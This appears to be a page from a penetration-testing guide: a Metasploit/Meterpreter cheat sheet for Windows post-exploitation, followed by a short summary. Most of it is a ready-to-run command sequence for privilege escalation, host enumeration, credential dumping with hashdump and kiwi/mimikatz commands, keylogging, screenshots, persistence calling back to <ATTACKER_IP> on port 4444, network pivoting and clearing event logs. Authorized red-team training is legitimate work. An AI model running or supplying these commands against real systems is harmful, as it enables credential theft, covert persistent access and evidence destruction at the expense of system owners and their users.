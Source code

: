 ## Minimal cheat sheet (one-screen flow)
```bash
# List sessions, stabilize, escalate
sessions -l
sessions -i 1
sysinfo && getuid && ps
migrate <PID> && getsystem
background

# Recon (post modules)
use post/windows/gather/checkvm; set SESSION 1; run; back
use post/windows/gather/enum_applications; set SESSION 1; run; back
use post/windows/gather/enum_patches; set SESSION 1; run; back
use post/windows/gather/enum_logged_on_users; set SESSION 1; run; back
use post/windows/gather/enum_shares; set SESSION 1; run; back

# Creds
sessions -i 1
hashdump || true
background
use post/windows/gather/smart_hashdump; set SESSION 1; set GETSYSTEM true; run; back
sessions -i 1
load kiwi
creds_all
kiwi_cmd sekurlsa::logonpasswords
lsa_dump_sam
lsa_dump_secrets

# Extras
keyscan_start; # ...wait... ; keyscan_dump; keyscan_stop
screenshot
background

# Persistence (authorized)
use post/windows/manage/enable_rdp; set SESSION 1; run; back
sessions -i 1; run persistence -U -i 10 -p 4444 -r <ATTACKER_IP>; background

# Pivot
use post/multi/manage/autoroute; set SESSION 1; set SUBNET 10.10.20.0; set NETMASK 255.255.255.0; run

# Cleanup
sessions -i 1; clearev; background
```

## Summary
- After initial access, Windows post-exploitation focuses on stabilizing access, enumerating the host, escalating privileges, and harvesting credentials using Meterpreter and Metasploit post modules.
- Core modules to remember: local_exploit_suggester, checkvm, enum_applications, enum_patches, enum_logged_on_users, enum_shares, smart_hashdump, enable_rdp, autoroute.
- Combine Meterpreter built-ins (migrate, getsystem, load kiwi, keyscan, screenshot, hashdump) with post modules for a thorough workflow.
- Be architecture-aware, maintain OPSEC, and only apply persistence or destructive actions when explicitly authorized.